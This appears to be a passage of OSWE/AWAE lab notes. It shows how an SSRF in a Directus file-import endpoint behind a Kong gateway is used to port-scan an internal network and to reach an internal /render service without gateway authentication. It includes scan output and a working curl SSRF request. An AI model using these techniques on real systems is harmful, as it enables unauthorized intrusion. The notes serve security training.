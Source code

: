 ```bash
        8000     {"errors":[{"message":"connect EHOSTUNREACH 172.16.16.8:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
```
This error message might mean the host couldn't find a route to a given IP address. Since we have several live hosts to work with, we can ignore any IP addresses that resulted in the "EHOSTUNREACH" error.

Based on the response values, we can assume the first six hosts are valid. Let's modify the script to scan for common ports on those hosts, using the same list of ports.

We can limit the amount of extraneous data by filtering `"connection refused"` messages.

Scan for common port on these live hosts: [liveIP_port_scan.py](https://github.com/m0hammad-yaser/OSWE-AWAE-Notes/blob/main/apigateway/liveIP_port_scan.py)

Output:
```bash
kali@kali:~$ python3 liveIP_port_scan.py -t http://apigateway:8000/files/import --timeout 5
Trying host: 172.16.16.1
        22       ???? - returned parse error, potentially open non-http
        8000     OPEN - returned 404
Trying host: 172.16.16.2
        8000     OPEN - returned 404
        8001     OPEN - returned permission error, therefore valid resource
Trying host: 172.16.16.3
        5432     OPEN - socket hang up, likely non-http
Trying host: 172.16.16.4
        8055     OPEN - returned permission error, therefore valid resource
Trying host: 172.16.16.5
        9000     OPEN - returned 404
Trying host: 172.16.16.6
        6379     ???? - returned parse error, potentially open non-http
```
These results are promising. We know the Kong API Gateway is running on `8000`. This port is open on the first two hosts. Kong runs its Admin API on port `8001`, restricted to localhost. Since `172.16.16.2` has ports `8000` and` 8001` open, we can assume that it is running the Kong API Gateway. The host on `172.16.16.1` is likely the network gateway or an external network interface.

The default port for Directus is `8055`, which aligns with host four. Port `5432` is the default port for PostgreSQL. Port `6379` is the default port for REDIS. Using this information, we now have a better picture of the internal network.

We still have one host running an unknown HTTP service on port `9000`. However, the SSRF vulnerability allows us to verify which backend servers are hosting the public endpoints we have identified.
## Render API Auth Bypass
We identified the `/render` service during enumeration, but it requires authentication via an API gateway. To bypass this, we can attempt SSRF to access the service directly. Since it's likely not hosted on the Directus server, we'll test the unknown service on port `9000` using SSRF to check if `http://172.16.16.3:9000/render` is valid.

```bash
kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/render"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-qz7bVW5hKPsQy2fT0mRPx8X4tuc"
Date: Thu, 25 Feb 2021 16:59:49 GMT
X-Kong-Upstream-Latency: 33
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1
```